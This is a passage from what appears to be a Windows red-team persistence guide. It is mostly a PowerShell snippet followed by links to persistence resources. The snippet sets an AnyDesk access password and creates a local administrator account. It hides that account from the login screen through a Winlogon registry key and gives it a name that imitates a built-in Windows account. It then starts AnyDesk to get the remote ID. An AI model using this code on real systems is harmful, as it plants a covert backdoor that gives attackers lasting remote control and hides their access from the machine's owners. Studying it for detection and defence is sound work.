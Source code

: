 ```powershell
    cmd.exe /c echo $password_cmd | $file --set-password

    New-LocalUser -Name $username -Password $password
    Add-LocalGroupMember -Groups Administrators -Member $username
    Set-ItemProperty -Force -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" -Name WDAGUtilltyAccount -Type DWord -Value 0

    Start-Process -FilePath $file -NoNewWindow -Credential $credential -ArgumentList("--get-id")
}

AnyDesk
```

## References

- [Mandiant: SharPersist Windows Persistence Toolkit](https://www.mandiant.com/resources/sharpersist-windows-persistence-toolkit)

- [OSCP Journey Part 9.0 (Windows Post Exploitation Enabling RDP Manually)](https://www.youtube.com/watch?v=ZTynRqgncyc)

- [Zweilosec: Windows RedTeam Persistence](https://zweilosec.gitbook.io/hackers-rest/windows-1/windows-redteam/persistence)

- [Persistence Info](https://persistence-info.github.io/)